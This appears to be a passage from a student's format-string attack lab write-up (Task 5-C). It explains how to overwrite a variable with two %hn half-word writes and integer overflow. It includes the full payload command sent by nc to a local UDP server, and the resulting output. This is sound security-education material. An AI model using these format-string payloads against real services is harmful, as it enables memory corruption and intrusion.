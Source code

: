 ```shell
@�*********************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************0xbffff0a00xb7fba0000x804871b0x30xbffff0e00xbffff6c80x804872d0xbffff0e00xbffff0b80x100x804864c0xb7e1b2cd0xb7fdb6290x100x30x82230002(nil)(nil)(nil)0x3bae00020x100007f(nil)(nil)
The value of the 'target' variable (after): 0x00000500
```

### Task 5-C: Change the value to `0xff990000`

This sub-task is similar to the previous one, except that the target value is now a large number. Printing out this large number of characters may take hours. 

The basic idea is to use `%hn`, instead of %n, **so we can modify a two-byte memory space**, instead of four bytes. Printing out 2<sup>16</sup>  characters does not take much time. We can break the memory space of the target variable into two blocks of memory, each having two bytes. We just need to set one block to `0xFF99` and set the other one to `0x0000`. 

**This means that in your attack, you need to provide two addresses** in the format string. In format string attacks, changing the content of a memory space to a very small value is quite challenging (please explain why in the report); `0x00` is an extreme case. To achieve this goal, we need to use an overflow technique. The basic idea is that when we make a number larger than what the storage allows, only the lower part of the number will be stored (basically, there is an integer overflow).

For example, if the number 2<sup>16</sup> + 5 is stored in a 16-bit memory space, only 5 will be stored. Therefore, to get to zero, we just need to get the number to 2<sup>16</sup> = 65536.

In this sub-task, we need use `%hn` to substitute `%n`. It will modify half word. So to change the value to `0xff990000`, we need to modify it by `0xff99` and `0x0000`, but 0 is impossible, we should implement this by overflow.  

The two address is `0x0804a040 ` and `0x0804a042`, we need change the first two bytes into `0x10000`, and use `0xff99` to cover the overflow `0x1`.  

```shell
echo $(printf "\x42\xa0\x04\x08\x22\x22\x22\x22\x40\xa0\x04\x08")%655069x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%8x%hn%0103x%hn > input5c
$ nc -u 127.0.0.1 9090 < input5c
```

Output:

```shell
                                                                                                                                                                                                                                                                                                 bfb1e0e0b76e0000 804871b       3bfb1e120bfb1e708 804872dbfb1e120bfb1e0f8      10 804864cb75412cdb7701629      10       382230002       0       0       0eae60002 100007f       0       00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000022222222
The value of the 'target' variable (after): 0xff990000
```
